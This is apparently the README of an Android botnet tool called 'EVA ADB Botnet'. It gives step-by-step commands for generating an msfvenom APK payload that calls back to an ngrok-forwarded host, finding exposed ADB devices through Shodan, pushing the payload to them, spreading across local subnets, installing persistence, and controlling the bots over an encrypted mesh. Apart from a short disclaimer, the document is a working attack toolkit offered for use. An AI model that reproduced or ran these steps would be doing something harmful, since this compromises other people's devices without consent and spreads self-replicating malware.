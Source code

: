  # EVA ADB Botnet
 ![image0](https://github.com/user-attachments/assets/73a547b9-98e0-44f5-bb2a-2eed96b553bd)


**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

To install EVA on any Linux system:

### 1. Clone the repository

```bash
git clone https://github.com/ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
````

### 2. Install dependencies

```bash
sudo apt update && sudo apt install -y android-tools-adb python3-pip metasploit-framework
pip3 install pycryptodome requests
mkdir -p bots
```

---

## Optional ADB Install (Manual Method)

If you're having issues with the packaged ADB:

```bash
sudo mkdir -p /opt/android-platform-tools
cd /opt/android-platform-tools
sudo wget https://dl.google.com/android/repository/platform-tools-latest-linux.zip
sudo unzip platform-tools-latest-linux.zip
sudo mv platform-tools/* .
sudo rm -r platform-tools platform-tools-latest-linux.zip
```

Then add ADB to your PATH permanently:

```bash
echo 'export PATH=$PATH:/opt/android-platform-tools' >> ~/.bashrc
source ~/.bashrc
```

---

## Ngrok Setup

EVA uses ngrok to forward ADB and payload ports publicly.

### 1. Download & install ngrok

```bash
cd ~/Eva_adb_botnet
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```

### 2. Add your ngrok auth token

```bash
./ngrok config add-authtoken <your_token_here>
```

### 3. Start a tunnel for your payload listener

```bash
./ngrok tcp 1337
```

Copy the **forwarded ngrok domain and port** — you’ll need them in the payload config below.

---

##  One-Time Configuration (Before Launch)

### 1. Set your Shodan API key

Edit `adb_reaper.py` and replace this:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

---

### 2. Configure msfvenom payload generation

Edit `metasploit_launcher.py` (which now builds the payload using `msfvenom`):

```python
LHOST = "0.tcp.ngrok.io"     # your forwarded ngrok domain
LPORT = "12345"              # your forwarded port
OUTPUT = "adb_payload.apk"   # payload filename
```

This file generates a ready-to-push APK payload.

---

### 3. Update payload path in dropper

Edit `adb_dropper.py`:

```python
ADB_PAYLOAD = "adb_payload.apk"
```

EVA will push this APK to every connected ADB device.

---

### 4. Set AES encryption key (optional but recommended)

Edit `jeangrey_crypto.py`:

```python
SECRET_KEY = b'ChangeThis16Byte!'  # Use a secure 16-byte AES key
```

---
![image1](https://github.com/user-attachments/assets/5df947d2-2683-4dde-bc4c-de37726a5c4b)

## Full Botnet Launch

```bash
python3 EVA_launcher.py
```

This will:

* Generate your payload via `msfvenom`
* Scan Shodan for exposed Android ADB targets
* Push the payload to infected devices
* Start encrypted mesh communication
* Begin peer discovery + replication
* Launch AI triggers + EVA Core

---

## View Active Bots

```bash
python3 eva_dashboard.py
```

* Shows IPs, tags, status
* Auto-refreshes every 3s

---

## Send Commands to Bots

```bash
python3 eva_core.py
```

Supported commands:

* `scan` – search nearby ADB devices
* `drop` – re-deploy payload
* `report` – show bot state
* `shutdown` – terminate a bot

---

## Autonomous AI Trigger Loop

```bash
python3 eva_ai_trigger.py
```

Bots will:

* Respond to mesh commands instantly
* Auto-scan, replicate, and report
* Operate continuously on mesh triggers

---

## Replication + Persistence

Bots will:

* Replicate to local subnet ADB devices
* Update `jeangrey_state.json` regularly
* Persist across reboot via `.bashrc`

Manual persistence install:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

---

## Bot Management

```bash
python3 state_editor.py
```

Allows you to:

* Rename bots
* Tag/untag
* View/edit JSON
* Delete infected nodes

---

## Directory Layout

```
Eva_adb_botnet/
├── EVA_launcher.py
├── metasploit_launcher.py       ← Generates msfvenom payload
├── adb_dropper.py               ← Pushes APK payload
├── adb_reaper.py                ← Shodan scraper
├── eva_core.py                  ← Sends mesh commands
├── eva_ai_trigger.py           ← Bot AI responder
├── eva_dashboard.py            ← Live bot status viewer
├── jeangrey_android.py         ← Bot implant logic
├── jeangrey_persist.sh         ← Android persistence
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    └── bot_<ip>/
        └── jeangrey_state.json
```

---

## ⚠️ Legal & Ethical Notice

EVA is a research framework designed for:

* Educational use
* Controlled environments
* Enviroments you have permission to test on.

**Do not deploy against unauthorized targets. Misuse may be illegal. You are responsible.**

---

## Vision

EVA is not just a botnet — she's a **mesh-aware framework**.
She replicates. She listens. She obeys.

